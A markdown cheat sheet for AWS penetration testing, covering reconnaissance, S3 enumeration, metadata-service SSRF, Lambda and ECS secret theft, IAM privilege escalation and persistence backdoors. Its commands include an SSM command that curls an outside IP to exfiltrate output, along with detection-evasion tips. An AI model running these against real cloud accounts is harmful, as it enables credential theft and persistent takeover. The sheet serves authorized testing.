

# AWS Pentest : Tools and Techniques

MITRE Att&ck : Cloud Matrix  
https://attack.mitre.org/matrices/enterprise/cloud/

## Recon / Discovery

### Basic recon
```
host -a client.com
```

```
nslookup x.x.x.x 
```

```
nmap -Pn -p- -sV -vv -A -sS client.com
```

### DNSRecon
- https://github.com/darkoperator/dnsrecon
- https://github.com/lanmaster53/recon-ng
- https://github.com/aboul3la/Sublist3r

### DNS brute force
- https://github.com/lutzenfried/subLocal

### AWS S3 and web app
Some applications may pull content directly from S3 buckets.  
--> Look to see where web resources are being loaded from (css, js, images, files...) to determin if S3 buckets are in use.  

- https://xxxxx.s3.amazonaws.com
- https://s3-[region].amazonaws.com/[OrgName]
- s3://

### Specific Google Dorks
##### Amazon WorkMail endpoint 
- inurl:/mail site:awsapps.com

##### Amazon Single Sign-On (SSO)
- site:awsapps.com inurl:start

##### API Gateway in AWS  
This could be :  
- HTTP API
- REST API
- WebSocket API
- REST API (private, only accessible within a VPC)

- site:.execute-api.us-east-1.amazonaws.com

--> Note that you will be able to change the AWS region to target different locations.
--> Requests could be passed to Lambda function for example, blind exploitation possible.
--> Verb tampering attack could be used on restricted API to attempt bypass authentication, in case for example only GET request require authentication but POST is allowed.  

**Accessing misconfigured private API**  
It is possible to access private API if misconfigured.  
1. Use attacker AWS account
2. Create a new EC2 instance within the same Region with default VPC
3. Right click on instance ID and *Connect*
- At this step you will not be able to reach the private API and will receive a *Could not resolve host* from curl.
4. In attacker account go to VPC
5. Create security groups (ALL TCP - Anywhere outbound/inbound)
6. Create a VPC endpoint with service *com.amazonaws.us-east-1.execute-api* on **ALL** availability zone and select the previously created security group.
7. Retry access to the API

--> In this case de API is private, so only accessible through AWS VPC network and specific region. But the **Resource Policy** of this API gateway *ALLOW* for *ANY PRINCIPAL* to *execute-api:Invoke* on any *Resource*.
```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "execute-api:Invoke",
            "Resource": "*"
        }
    ]
}
```

##### Others
--> https://www.exploit-db.com/google-hacking-database
--> https://github.com/JannisKirschner/Dorks

### MX Records
Point to where an organization email assets are hosted.
- Using recon-ng
- dig mx client.com

### Certificate Transparency
--> https://crt.sh/
--> https://censys.io/certificates
--> https://ui.ctsearch.entrust.com/ui/ctsearchui

### Cloud IP Ranges
Most cloud providers publish up to date lists of their IP address ranges. This tools identifies if an IP belongs to a provider's ranges by fetching and parsing the latest lists.  

https://github.com/nccgroup/cloud_ip_ranges

### Cloud Enumeration
Unauthenticated enumeration on the following services :
- Amazon Web Services : S3 Buckets
- Microsoft Azure : Storage Accounts
- Google Cloud Platform : GCP Buckets  

https://github.com/initstring/cloud_enum

### Cloud Brute
Find a company (target) infrastructure, files, and apps on the top cloud providers (Amazon, Google, Microsoft, DigitalOcean, Alibaba, Vultr, Linode).  

--> Use ipinfo.io API key  

https://github.com/0xsha/CloudBrute

### Git / Repo secret parsers
- gitleaks (https://github.com/zricethezav/gitleaks)  
- trufflehog (https://github.com/trufflesecurity/truffleHog)
- git-secrets (https://github.com/awslabs/git-secrets)
- shhgit (https://github.com/eth0izzle/shhgit)
- gitrob (https://github.com/michenriksen/gitrob)

### SharpCloud
SharpCloud is a simple C# utility for checking for the existence of credential files related to Amazon Web Services, Microsoft Azure, and Google Compute.  

##### Searches all user profiles for credentials related to Amazon Web Services.

```
SharpCloud.exe aws
```

- https://github.com/chrismaddalena/SharpCloud

### Unauthenticated enumeration (AWA Account ID, Users, Roles...)
- https://github.com/Frichetten/enumate_iam_using_bucket_policy.git
- https://github.com/righteousgambit/quiet-riot
```
pip install quiet-riot
quiet-riot --profile testAWS --threads 10 --wordlist wordlists/role_name.txt --scan 4.1
```

Using PACU Module - Enumerating role
```
Pacu (SessionName:AWS_Attacker) > run iam__enum_roles --role-name attackerrole --account-id VICTIMAWSACCOUNTID
```

- https://hackingthe.cloud/aws/enumeration/enum_iam_user_role/

### Enumerate IAM permissions
Found a set of AWS credentials and have no idea which permissions it might have?  
--> AccessKey/SecretKey needed (authentication require)  
https://github.com/andresriancho/enumerate-iam  
 
Sometimes it freezes after couple of API calls. Since AWS APIs are being updated continuously. We’ll need to manually synchronize APIs with this tool.  
```
git clone --depth 1 https://github.com/aws/aws-sdk-js.git
```

```
python generate_bruteforce_tests.py
```

### Resource policies
When we compromised some identify in an environment we should not only focused on identity policiies (such as user having list:bucket) but we should also focus on resource based policies which can have a pre-existing trust relationship. 



### Enumerate AWS role 
It is possible to enumerate AWS role from an AWS attacker account to other non related victim account (cross account role enumeration).

In order to proceed to enumeration, the following are required :
- Attacker AWS account with sufficient permission *iam:UpdateAssumeRolePolicy*
- Target AWS account ID
- Existing Role to be modify on attacker AWS account
```
aws iam update-assume-role-policy --role-name roleEnum --policy-document file://role_policy.json
```

### Retrieve Account ID from AWS Access Key

In order to proceed to enumeration, the following are required :
- Attacker AWS account  

```
aws sts get-access-key-info --access-key-id=AKIAXXXXXXXXXXX  
```

> {"Account": "8XXXXXXXXXX"}

### CloudFox
- https://github.com/BishopFox/cloudfox
- CloudFox is a tool to find exploitable attack paths in cloud infrastructure (currently only AWS & Azure supported with GCP upcoming).
- It is an enumeration tool which is intended to compliment manual pentesting. 
- It doesn't create or modify any data within the cloud environment.

### AWS Recon
- [AWS-Recon](https://github.com/darkbitio/aws-recon)
- AWS Recon gathers inventory data including resource attributes and metadata.

### S3 enumeration / brute force

#### Sandcastle bucket enumeration
https://github.com/0xSearches/sandcastle  
```
python2.7 sandcastle.py -t client.com
```

#### Bucket : GrayHat Warfare
https://buckets.grayhatwarfare.com/  
Online database containing more than 80 000 AWS buckets and Azure blobs

#### AWS Bucket Dump
https://github.com/jordanpotti/AWSBucketDump  
S3 Bucket enumeration tool

#### PACU module
```
aws s3 sync s3://bucketcompanyname s3-files-dir
```

#### AWS Service enum
https://github.com/NotSoSecure/cloud-service-enum/tree/master/aws_service_enum  
- Discover AWS services which a following set of credentials has access to  
- Require AWS AccessKey

#### S3Enum
Project archived but usefull to generate S3 wordlist using suffix
https://github.com/koenrh/s3enum  
- S3 enumeration tool in GO using DNS instead of requesting AWS directly through HTTP.  
```
go get github.com/koenrh/s3enum
```

#### S3 Inspector
Checking S3 bucket permissions  
https://github.com/clario-tech/s3-inspector  
--> AccessKey/SecretKey needed (authentication require)
--> Prerequisites : IAM user with AmazonS3ReadOnly

#### S3 Scanner
Find open S3 buckets and dump their contents  
https://github.com/sa7mon/S3Scanner  
```
python3 -m S3Scanner --threads 8 scan --buckets-file ./bucket-names.txt
```

#### Mass3
Enumerate through a pre-compiled list of AWS S3 buckets using DNS instead of HTTP with a list of DNS resolvers and multi-threading  
https://github.com/smiegles/mass3

#### Bucket Stream
Find interesting Amazon S3 Buckets by watching certificate transparency logs.  
https://github.com/eth0izzle/bucket-stream  

#### Slurp
Blackbox/whitebox S3 bucket enumerator  
https://github.com/0xbharath/slurp  
```
./slurp domain -t company.com
```

#### List containing multiple S3 enumeration tools
https://github.com/mxm0z/awesome-sec-s3

#### bucketHead
Search across every AWS region for variety of bucket name based on domain name, the tool use *Sublist3r* to enumerate interesting subdomains  

```
./buckethead.py -d flaws.cloud -t 10 --sublist3r --subbrute
```

--> https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/s3  

#### S3 Code injection
If a web app is loading content from an S3 bucket made publicly writeable.  
--> Attackers can upload malicious JS to get executed by visitors.  

Possibility for mutliple vulnerabities:
- XSS
- Redirection
- Crypto mining

#### S3 Domain hijacking
- Hijack S3 domain by finding references in a webapp to S3 buckets that don't exist anymore or subdomains that were linked to an S3 bucket with CNAMEs that still exist.
	- Look for 404 to **\*.s3.amazonaws.com** or **s3-[region].amazonaws.com/**
	- Brute force subdomains for an org look for webpage returning 404 and *NoSuchBucket*  
	--> Create the S3 bucket with the same name and region and load malicious content.

#### CloudScraper (modified version)
- https://github.com/lutzenfried/CloudScraper

-> (Modified version including additionnal CSP interesting endpoints)

- bc.googleusercontent.com (GCE instances)
- appspot.com (Google App Engine)
- run.app (Google Cloud run)
- firebaseio.com (Google Cloud Firestore - NoSQL)
- cloudfunctions.net (Google Cloud Functions)
- azurewebsites.net (Azure websites)
- cloudapp.net (Azure Cloud App)
- cloudapp.azure.com (Azure Cloud App)

CloudScraper is a Tool to spider and scrape targets in search of cloud resources. Plug in a URL and it will spider and search the source of spidered pages.

```
python3 CloudScraper.py -v -p 4 -d 5 -u https://www.company.com
```

<br/>

## Analysis

#### Cloud Purple Team
- https://github.com/DataDog/stratus-red-team

#### Basic Vulnerability scanning
- Nessus
- OpenVas
- Nmap NSE
- Acunetix
- Qualys
- ...  

#### AWS-Recon
https://github.com/darkbitio/aws-recon

A multi-threaded AWS security-focused inventory collection tool written in Ruby.

#### Cloud Mapper: Realize Cloud environment mapping
https://github.com/duo-labs/cloudmapper  

#### CloudSplaining
AWS IAM security assessment tool that identifies violations of **least privilege** and generate a risk-prioritized HTML report.  
https://github.com/salesforce/cloudsplaining  

#### Resource Counter
Command line tool counts the number of resources in different categories across Amazon regions.  

https://github.com/disruptops/resource-counter

#### Prowler
Command line tool for AWS security assessment, auditing, hardening and incident response.  
+180 checks covering security best practices across all AWS regions and most of AWS services  
https://github.com/toniblyx/prowler  

#### Scout Suite
```
python3 scout.py aws --access-keys --access-key-id KDDDDDDDDDXZ --secret-access-key XXXXXXXXXXX
```

#### CS-Suite (Cloud Security Suite)
CS-Suite allow for auditing security posture of the AWs infrastructure and provides system audits as well.  

https://github.com/SecurityFTW/cs-suite

#### CloudJack
CloudJack assesses AWS accounts for subdomain hijacking vulnerabilities as a result of decoupled Route53, S3 and CloudFront configurations.  

https://github.com/prevade/cloudjack

#### Principal Mapper
Tool and library for in-depth analysis with AWS Identity and Access Management  

--> Models the different IAM Users and Roles in an account as a directed graph for visualization  

https://research.nccgroup.com/2021/03/29/tool-release-principal-mapper-v1-1-0-update/  

https://github.com/nccgroup/PMapper


#### SkyArk
PowerShell project giving the opportunity to discover most privileged cloud users. Focuses on mitigating the new threat of Cloud Shadow Admins  

--> Module **AWSStealth**

```
Import-Module .\SkyArk.ps1 -force
Start-AWStealth
```

https://github.com/cyberark/SkyArk

#### AWS Inventory
Tool that tries to discover all AWS resources created in an account.   

https://github.com/nccgroup/aws-inventory  

https://www.nccgroup.com/ae/about-us/newsroom-and-events/blogs/2018/may/aws-inventory-a-tool-for-mapping-aws-resources/  

#### AwsPx
Awspx is a graph-based tool for visualizing effective access and resource relationships within AWS.  

https://github.com/FSecureLABS/awspx

<br/>	


## Exploitation / Post Exploitation
Exploitation and post exploitation are really tight in Cloud environment.

#### Web app SSRF : Accessing metadata
Extracting secrets using SSRF  
https://5x.xx.x.xx/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/role-name  
--> Mitigation : Enable IMDSv2  
https://aws.amazon.com/fr/premiumsupport/knowledge-center/ssm-ec2-enforce-imdsv2/

#### Accessing IMDS for ECS
Containers running on ECS access their temporary tokens at the **169.254.170.2/v2/credentials/GUID** URL.  

--> The GUID is defined in the AWS_CONTAINER_CREDENTIALS_RELATIVE_URI environment variable.

#### ECS Task definitions
The ECS task definitions could contain some secrets.

1. --> Use PACU : module : *ecs__enum* --regions ca-central-1 (should be realized over potential regions where containers are located)  

--> This will return the following informations:
- Clusters
- Containers
- Services
- Amout of task definitions

2. Then use PACU : module : *ecs__enum_task_def* to grab the task defintions from previously saved *ecs__enum* module output.

#### Exploiting LAMBDA function
There is no metadata service at http://169.254.169.254 for Lambda functions. Lambda does it differently, it stores the credentials in **environment variables**.  

- /self/proc/environ
- /etc/environment
- Via command injection : 
```
printenv
```
	
--> Check for Lambda runtime API presence. (*AWS_LAMBDA_RUNTIME_API* )

If we can execute code on the server --> we can exfiltrate those credential.   

We would then have access to all the permissions associated with the role attached to the Lambda function.  

--> Some thing to keep in mind while pentesting Lambda functions (with read access).

- Check the tags associated with each function for sensitive information. This is highly unlikely, but not unheard of.

- Consider copying the whole function over to your own AWS account for testing, so that you don't need to make noise in the target environment.

- If you have CloudWatch logs access, review the execution logs for each Lambda function to see if anything sensitive was printed (stored in the **/aws/lambda/function name** log group).

- You can download a .zip file of the entire Lambda function from the AWS web
console by clicking on the **Actions** drop-down menu, clicking on **Export
function** , and choosing **Download deployment package** . Then, it is simple to port over to your own account.

- Try to formulate your payloads so that they do what you want without breaking
the execution of the function. A Lambda function execution that errors out might attract some unwanted attention!

- When writing your payloads, be wary of the timeout of the function. The default is for the function to timeout after three seconds, so you will need some quick, easy exfiltration in that case.  

#### ECS Container Images
It is also possible to steal secrets directly from ECS Container Images in case we previously obtain ECS access tokens via [SSRF for example](#Accessing-IMDS-for-ECS)

1. Authenticate to the container registry  
```
aws ecr get-login-password --region ca-central-1 --profile profile | docker login --username AWS --password-stdin 066XXXXX.dkr.ecr.ca-central-1.amazonaws.com/web-serevices
```

2. Pull the image  
```
docker pull 066XXXXX.dkr.ecr.ca-central-1.amazonaws.com/web-services
```

3. Inspect the image  
```
docker inspect 066XXXXX.dkr.ecr.ca-central-1.amazonaws.com/web-services
```
- Abusing Misconfigured ECR Resource Policies
https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/misconfigured_ecr_resource_policy/

#### AWS Honey tokens

AWS honeytokens are strategically placed in various locations, such as a private Git repo, on the file system of a certain server, and other similar places. Their main purpose is to detect when an attacker has breached their environment. An attacker would likely use AWS keys that they find, but aws honeytokens have no permissions and immediately alert the account owner when they are used.  

https://github.com/RhinoSecurityLabs/Security-Research/blob/master/tools/aws-pentest-tools/awshoney_check/awshoney_check.py

#### IAM Role enumeration
IAM AWS verbose error messages disclose whether a role exists or not, allowing us to enumerate role names  


- https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/

*assume_role_enum.py* script
- https://github.com/RhinoSecurityLabs/Cloud-Security-Research/tree/master/AWS/assume_role_enum

#### IAM User account enumeration
https://rhinosecuritylabs.com/aws/aws-iam-user-enumeration/

*iam_user_enum.py* script  
- https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/iam_user_enum

#### AWS pwn
Exploitation framework including multiple category:  
- Reconnaissance
- Exploitation
- Stealth
- Exploration
- Elevation
- Persistence
- Exfiltration

https://github.com/dagrz/aws_pwn  

#### PACU : Exploitation framework
MetaSploit equivalent for AWS cloud  
- Reconnaissance
- Persistence
- Privesc
- Enumeration
- Data exfiltration
- Log manipulation
- Misc exploitation  
https://rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework/  
https://github.com/RhinoSecurityLabs/pacu  
https://github.com/RhinoSecurityLabs/pacu/wiki/

#### AWS Attack Library (WeirdALL)
Repository of useful functions (offensive & defensive) to interact with AWS services.  
https://github.com/carnal0wnage/weirdAAL  
https://github.com/carnal0wnage/weirdAAL/wiki  

#### Lambda proxy
Utility to help test AWS Lambda functions for SQL Injection vulnerabilities, using a local HTTP proxy, which transforms the SQLMap HTTP-based attacks to AWS Lambda invoke calls.  

https://github.com/puresec/lambda-proxy

#### Froud
https://github.com/reka193/froud  
- rolepolicies.py : Lists inline and managed policies attached to the role of the instance profile.
- resource.py : Lists available resources with the given credentials.
- dynamodb.py : Scans the given DynamoDB table, saving the results locally or uploading them publicly to an S3 bucket.
- sqs.py : Scans the given SQS queue, saving the results locally or uploading them publicly to an S3 bucket.
- cloudwatch.py : Scans the available Cloudwatch logs, saving the results locally or uploading them publicly to an S3 bucket.
- fuzzer.py : Sends fuzz messages to the given SQS queue.


#### Nimbostratus (python 2.7)
https://github.com/andresriancho/nimbostratus  
Nimbostratus is a set of tools for fingerprinting and exploiting Amazon cloud infrastructures  

--> Used boto library for accessing Amazon's API  
- Dump credentials from EC2 instance   
In case of SSRF modify the core/utils/mangle.py to include vulnerable URL.
- Dump instance permissions
- Dump instance meta-data
- Create DB snapshot
- Inject raw celery message (insecure pickle serialization)
- Create new user

#### DuffleBag (Public EBS snapshots)
Dufflebag is a tool that searches through public Elastic Block Storage (EBS) snapshots for secrets that may have been accidentally left in.  

- https://github.com/bishopfox/dufflebag

#### Gaining AWS console access via API Keys
https://github.com/NetSPI/aws\_consoler

#### MSF Module : AWS EC2 Instance Metadata
Attempt to connect to AWS EC2 instance metadata service and collect all metadata.  
https://www.rapid7.com/db/modules/post/multi/gather/aws_ec2_instance_metadata/


#### CCAT : 
Cloud Container Attack Tool (CCAT) is a tool for testing security of container environments in multiple Cloud environment (GCP / AWS)  

https://github.com/RhinoSecurityLabs/ccat

#### CloudCopy : Shadow copy attack
Cloud version of the Shadow Copy attack against domain controllers running in AWS. Any AWS user possessing the **EC2:CreateSnapshot** permission can steal the hashes of all domain users by creating a snapshot of the Domain Controller mounting it to an instance they control and exporting the NTDS.dit and SYSTEM registry hive file for use with Impacket's secretsdump project.  

https://github.com/Static-Flow/CloudCopy

#### From API Keys to AWS Web Console Access
*AWS_consoler* is an utility tool to convert AWS CLI credentials into AWS console access.. 

https://github.com/NetSPI/aws_consoler

#### SSM - Command execution
SSM (Simple System Manager) have agent called SSM agent. These SSM agent are by default preinstalled on the following AMI (Amazon Machine Images), moreover the ssm-user account is not removed from the system when SSM Agent is uninstalled.  

https://docs.aws.amazon.com/fr_fr/systems-manager/latest/userguide/prereqs-ssm-agent.html  

- Amazon Linux
- Amazon Linux 2
- Base optimisée pour Amazon Linux 2 ECSAMIs
- macOS10.14.x (Mojave) et 10.15.x (Catalina)
- Serveur Ubuntu 16.04, 18.04 et 20.04
- Windows Server2008-2012 R2AMIsPublié en novembre 2016 ou ultérieurement
- Windows Server2016 et 2019  

```
aws ssm describe-instance-information --profile leakedProfile --region eu-west-1
```
	
```
aws ssm send-command --instance-ids "INSTANCE-ID-HERE" --document-name "AWS-RunShellScript" --comment "IP Config" --parameters commands=ifconfig --output text --query "Command.CommandId" --profile leakedProfile
```

```
aws ssm list-command-invocations --command-id "COMMAND-ID-HERE" --details --query "CommandInvocations[].CommandPlugins[].{Status:Status,Output:Output}" --profile leakedProfile
```

```
aws ssm send-command --instance-ids "i-09nXXXXX" --document-name "AWS-RunShellScript" --comment "whoami" --parameters commands='curl 162.243.XX.XX:8080/`whoami`' --output text --region=us-east-1
```

[Send Command API](https://docs.aws.amazon.com/fr_fr/systems-manager/latest/APIReference/API_SendCommand.html)


#### Exploiting public EBS volumes (same with EC2 AMI)
Elastic Block Store (Amazon EBS) has a "public" mode that makes your virtual hard disk available to anyone on the internet. (More precisely it is snapshot which can be made public)

01. Pick an exposed snapshot
02. Attach the volume to your EC2 instance
03. Search the disk for secrets 

--> DuffleBag tool can be used to automate this process.

--> By searching exposed EBS volumes, an attacker can steal secrets from a server that isn’t even exposed to the internet

https://www.youtube.com/watch?v=-LGR63yCTts

#### Golden SAML Attack
https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps

Golden SAML introduces to a federation the advantages that golden ticket offers in a Kerberos environment – from gaining any type of access to stealthily maintaining persistency.  

Here’s a list of the requirements for performing a golden SAML attack:

- Token-signing private key
- IdP public certificate
- IdP name
- Role name (role to assume)
- Domain\username
- Role session name in AWS
- Amazon account ID

**Usefull tools:**
- https://github.com/cyberark/shimit
- https://github.com/fireeye/ADFSDump
- https://github.com/fireeye/ADFSpoof

#### Shadow Copy Attack
Shadow Copy attack targets domain controllers running in AWS.   

--> Any AWS user possessing the *EC2:CreateSnapshot* permission can steal the hashes of all domain users:  
1. Create a snapshot of the Domain Controller
2. Mount snapshot to an instance under control
3. Export NTDS.dit and SYSTEM registry hive file for use with Impacket's secretsdump

https://github.com/Static-Flow/CloudCopy
https://medium.com/@_StaticFlow_/cloudcopy-stealing-hashes-from-domain-controllers-in-the-cloud-c55747f0913

#### Aws escalate
It is possible to detect what users have access to what privilege escalation methods in an AWS environment. It can be run against any single user or every user in the account if the access keys being used have IAM read access.  

https://github.com/RhinoSecurityLabs/Security-Research/blob/master/tools/aws-pentest-tools/aws_escalate.py

#### Confused Deputy attack
**Deputy**: Programs which taks actions on the behalf of other programs or people

**Confused Deputy**: Profram which has permissions given to it for one purpose, applies those permissions for some other purpose, that is contrary to the original intent of the permission, and therefore allows something that it shouldn't.

Within AWS, each principal (user,service,group...) has some privileges set required to access AWS services or resources.   

Sometimes it is require to allow a principal to access an AWS resources using a different set of privileges. In order to authorize a principal A for example to assume the role of another principal B and act as this principal B, AWS allow principals to use *sts:AssumeRole* to acquire temporary credentials for a role.  

A role is only another type of principal owning some policies (ex: *AmazonS3ReadOnlyAccess*). The main goal of the role is to allow AWS resources (EC2 for example) to access AWS Services (S3 for example). But role can also be used to provide users other privileges using temporary credentials (AssumeRole).  

Role are identified by ARN (Amazon Resource Name) syntaxe :
- *arn:aws:iam:452653435123:role/FullAdminAccess*

--> Principals can assume role that are located in their AWS account or within another AWS account : **Cross-Account role assumption**. (*This is the basis for cross-account role enumeration technique*)  

##### Exploitation : Confused Deputy

--> If no ExternalID condition is set within the role policy


###### Exploitation : Confused Deputy : Remediation

--> ExternalID preveting confused deputy problem


- https://docs.aws.amazon.com/IAM/latest/UserGuide/confused-deputy.html
- https://www.praetorian.com/blog/aws-iam-assume-role-vulnerabilities
- https://research.nccgroup.com/2019/12/18/demystifying-aws-assumerole-and-stsexternalid/

## Privilege Escalation
#### Random privesc tips
0. Launching Rhino Security Lab tool : **aws_escalate.py**  
	--> https://github.com/RhinoSecurityLabs/Security-Research/blob/master/tools/aws-pentest-tools/aws_escalate.py

1. Using modules *iam__enum_permissions* then *iam__privesc_scan* within PACU framework

2. Creating a new user access key :
	- *iam:CreateAccessKey* permission required  
	
--> Allows the attacker to request a new accesskey, secretkey belonging to another user in AWS environment, including full admin user.

3. Creating new login profile :
	- *iam:CreateLoginProfile* permission required  

--> Allows the attacker to create a password for a privileged entity that only has API keys, but no password based login for AWS Console.

4. Updating an existing login profile : 
	- *iam:UpdateLoginProfile* permission required  

--> Allows the attacker to change the password belonging to a login profile and use the gained privileges

5. Attaching a managed policy to an entity : If any of the following permissions:
	- *iam:AttachUserPolicy*
	- *iam:AttachGroupPolicy*
	- *iam:AttachRolePolicy*  

--> The attacker will be able to attach a new managed policy, including the AdministratorAccess policy.

6. Creating or Updating an inline policy for an entity : If any of the following permissions :
	- *iam:PutUserPolicy*
	- *iam:PutGroupPolicy*
	- *iam:PutRolePolicy*  
	
--> Allows the attacker to update an existing inline policy for a user, group or role, to add any arbitrary permission

7. Creating a new inline policy : Easiest way to privesc
	- *iam:CreatePolicy* permission required  

--> The attacker will be able to add a stealthy admin policy with misleading name such as "ReadOnlyPolicy"

8. Adding a user to a group.
	- *iam:AddUserToGroup* permission required  

--> The attacker will be able to add him or another compromised account to an existing IAM group

9. Updating the **AssumeRolePolicy** : Every role has a policy that defines who can assume this role : The combination of the following permissions is require for a user :
	- *iam:UpdateAssumeRolePolicy*
	- *sts:AssumeRole* (sts = Security Token Service)  

--> The attacker will be able to change this policy and assume a more privileged role

10. Same as previous one with the following permission :
	- *iam:SetDefaultPolicyVersion* permission  

--> Attacker will be able to change the default version of the policy to another one, which might give more privileges

11. Passing a role to a new Lambda Function and invoking it : The combination of the following permissions :
	- *iam:PassRole*
	- *lambda:CreateFunction*
	- *lambda:InvokeFunction*  

--> The attacker will be able to pass an existing role to a new Lambda function. For example : iam:AttachUserPolicy permission.

12. Updating the code of an existing Lambda function : The following permission is required :
	- *lambda:UpdateFunctionCode*  

--> The attacker will be able to modify and upload the code in an existing Lambda function and access the privileges associated with the Lambda function.

13. Creation a new policy **version** : The following permission is required:
	- *iam:CreatePolicyVersion*  

--> The attacker will be able to create new version of an IAM policy that they have access to. It needs to be set as the default version to take effect. This does not require the *iam:SetDefaultPolicyVersion*

14. Creating an EC2 instance with an existing instance profile : the combination of the following permissions is required for a user :
	- *iam:PassRole*
	- *ec2:RunInstances*
	
--> The attacker will be able to create a new EC2 instance that they will have OS access to and pass an existing EC2 instance profile/service role to it.  
--> Access to instance using 2 ways:
	- create/import SSH key and associated it with the instance on creation
	- Supply a script in the EC2 User Data<br/>

**NOTE**: Indicator of compromise will be triggered when EC2 instance profile credentials are used outside of the specific instance, not a smart move to exfiltrate these credentials and run them locally, but rather access the AWS API from within that EC2 instance

15. Passing a role to a new Lambda function, then triggering it with DynamoDB : The combination of the following permissions is require :
	- *iam:PassRole*
	- *lambda:CreateFunction*
	- *lambda:CreateEventSourceMapping*  
	
--> Attacker will be able to pass an existing IAM role to a new Lamnbda function that includes code to import the relevant AWS library to their programing language of choice. They then would need to either create a DynamoDB table or use an existing one, to create an event source mapping for the Lambda function pointing to that DynamoDB table. Then they would need to either put an item into the table or wait for another method to do so that the Lambda function will be invoked.


16. Passing a role to a Glue Development Endpoint : The combination of the following permissions is require :
	- *iam:PassRole*
	- *glue:CreateDevEndpoint*  
	
--> The attacker will be able to create a new AWS Glue development endpoint and pass an existing service role to it. They attacker would be able to SSH into the instance and use the AWS CLI to have access of the permissions the role has access to.

**NOTE**: It would be preferable for attacker to directoy use the AWS API from the new instance instead of extracting the credentials from the Glue Instance (GuardDuty will probably trigger some detection, as in method 14)

17. Updating an existing Glue Development Endpoint : The following permission is required : 
	- *glue:UpdateDevEndpoint*  

--> Attacker wil be able to update the associated SSH public key of an existing Glue Development endpoint.

18. Passing a role to CloudFormation : Combination of the following permissions is require :
	- *iam:PassRole*
	- *cloudformation:CreateStack*  
	
--> Attacker will be able to escalate privileges by creating a CloudFormation template that will perform actions and create resources using the permissions of the role that was passed when creating the CloudFormation stack.

19. Passing a role to Data Pipeline : Combination of the following permissions is require : 
	- *iam:PassRole*
	- *datapipeline:CreatePipeline*
	- *datapipeline:PutPipelineDefinition*  

--> The attacker would be able to create a pipeline, update the pipeline and run arbitrary AWS CLI command using the permission of the Role that was passed in.


#### AWS Services Data harvesting (post-exploitation)
S3
+ Save the content of a bucket, i.e. the objects.
	- *s3_list_bucket_contents* module : WeirdAAL (List content)
	- *s3 download file* module : WeirdALL (Download specific file)
	- *s3__download_bucket* module : PACU

SQS
+ Save the content of a queue, i.e. the messages.
	- *sqs.py* module : Froud
	--> Scans the given SQS queue, saving the results locally or uploading them publicly to an S3 bucket.
	
DynamoDB
+ Scan and retrieve all items from the table, save the results locally.
	- *dynamodb.py* module : Froud
	- *cloudwatch__download_logs* module : PACU

CloudWatch
+ Scan for all log groups and log streams, save the events from the streams locally.
	- *cloudwatch.py* module : Froud

## Persistences

#### Simple Email Service (SES)

--> Assume we compromised an account with full access on SES. 
- Phishing on allowed sending domains
- Modifying SES email template, adding malicious URL

#### Random backdoors/persistences techniques

1. Backdoor rules to an EC2 security group : **PACU** : *ec2__backdoor_ec2_sec_groups* module  
	--> Attacker attaches nw inbound rules to a security group to allow access to the EC2 instance.
	
2. Adding new user access key or password : **Multiples techniques** 
```
aws iam list-access-keys --user-name Sarah --profile Test
aws iam create-access-key --user-name Sarah --profile Test
```

OR
```
run iam__backdoor_users_keys (PACU)
run iam__backdoor_users_passwords(PACU)
```

3. Altering user data script : **PACU** : *ec2__startup_shell_script* module

4. Creating copies of deleted users : **AwsPwn** : *rabbit_lambda* module  
	--> In case the user accessed or created by the attacker is discovered
and deleted, it is automatically re-generated through Lambda function.

5. Adding access key to each newly created user : **AwsPwn** : *backdoor_created_users_lambda* module  
	--> Lambda function which responds to "CreateUser" events and sends fershly generated access key and secret key

6. Adding backdoor rules to newly created EC2 security groups : **AwsPwn** : *backdoor_created_security_groups_lambda* module  
	--> Add an arbitrary inbound access rule to new security groups, in response to each "CreateSecurityGroup" event.
	
7. Resource injection in CloudFormation templates.  
- https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/

8. VPC traffic mirroring within AWS.  
- https://rhinosecuritylabs.com/aws/abusing-vpc-traffic-mirroring-in-aws/

9. Add new Inline Policy to a user, group or role
- Adding Inline Policy to a specific user, group or role could be stealthier than creating a role, adding customer managed policies as the Inline Policy is only link to a specific AWS principal so less visible.

10. Backdooring role trust relationship
- Usefull as we can realize cross-account trust relationship and give permission directly to our own attacker account.
- The most important is to find a suitable target role
```
aws iam update-assume-role-policy --role-name Admin --policy-documentfile://trust-policy.json --profile Test
```
	
--> Confirming access:
```
aws sts assume-role --role-arn arn:aws:iam::111111111111:role/Admin --role-session-name PersistenceTest --profile attackerProfileAccount
```

OR
```
